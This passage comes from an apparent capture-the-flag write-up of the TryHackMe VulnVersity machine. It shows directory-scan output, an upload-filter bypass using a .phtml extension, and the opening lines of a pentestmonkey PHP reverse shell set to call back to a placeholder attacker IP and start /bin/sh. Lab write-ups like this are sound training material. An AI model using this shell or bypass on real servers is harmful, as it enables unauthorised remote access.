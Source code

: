 ```shell
/internal             (Status: 301) [Size: 320] [--> http://10.10.64.29:3333/internal/]
/server-status        (Status: 403) [Size: 301]
Progress: 220538 / 220561 (99.99%)
===============================================================
2023/05/09 09:13:39 Finished
===============================================================
```

We discover the page /internal/ has an upload form

[![2](/assets/blog/THM/VulnVersity/2.png)](/assets/blog/THM/VulnVersity/2.png)

After testing some example uploads I found that .php files were not allowed to be uploaded however using Burpsuite to automate this process a file with the extension .phtml was.

-----
# Exploitation

## PHP Reverse Shell

As this machine allows .phtml files to be uploaded I have modified an existing reverse shell poc.phtml.

```shell
poc.phtml

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '<ATTACKER IP>';  // CHANGE THIS
$port = 1337;           // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
```